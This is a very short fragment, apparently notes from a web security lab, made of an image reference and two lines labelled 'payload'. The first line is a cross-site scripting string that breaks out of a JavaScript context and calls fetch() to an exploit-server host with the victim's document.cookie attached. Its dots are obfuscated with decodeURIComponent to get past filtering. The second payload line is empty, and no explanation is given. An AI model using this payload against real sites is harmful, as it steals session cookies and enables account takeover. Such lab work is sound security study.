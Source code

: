 1

payload: `"-fetch('https://exploit-0ad8002e0436378180812af8014d0063'+decodeURIComponent('%2E')+'exploit-server'+decodeURIComponent('%2E')+'net/exploitabc?cookie='+document['cookie'])}//`

payload: ``